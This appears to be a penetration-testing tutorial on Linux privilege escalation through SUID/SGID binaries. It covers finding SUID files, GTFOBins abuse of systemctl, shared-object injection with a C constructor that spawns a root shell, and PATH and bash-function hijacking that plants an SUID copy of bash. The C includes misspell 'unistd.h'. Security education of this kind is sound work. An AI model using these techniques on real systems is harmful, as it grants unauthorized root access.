 # Introduction
The Set Owner User ID (SUID) and Set Group ID (SGID) are special permissions which can be attributed to Linux files and folders. If a file has either of those set, then it will be executed with the privileges of the owner / group, respectively, no matter which user actually invoked the command to run the file. 

Therefore, any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Finding%20SUID%20Binaries.png)

## Exploiting Misconfigured Common Binaries
You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries and check them on [GTFOBins](https://gtfobins.github.io/).

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20GTFOBins.png)

By following the instructions, although with slight modifications, we can run commands with elevated privileges:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20Escalated%20Privileges.png)

## Privilege Escalation via Shared Object Injection
Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binary looks for a specific library in a specific directory, but can't actually find it. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original one was supposed to be. This is quite similar to [escalating via LD_PRELOAD](Sudo%20Escalation%20via%20LD_PRELOAD.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/suid-so%20Run.png)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/strace%20Library%20Misconfigurations.png)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Shared%20Object%20Injection%20Successful.png)

## Privilege Escalation via Path Hijacking
Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `\$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths
Relative paths are comparably easy to hijack - they require little other than editing the `\$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `\$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Relative%20Path.png)

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `\$PATH` variable:
```bash
export PATH=/tmp:\$PATH
```

And finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Relative%20Path.png)

### Hijacking Absolute Paths
Absolute paths require a bit more work to be hijacked. 

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Absolute%20Path.png)

Luckily, bash turns out to be very sophisticated and allows for the creation of functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash function with the same name as the absolute path we want to hijack and then our function will be invoked in lieu of the original programme.

First, create the bash function:
```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:
```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Absolute%20Path.png)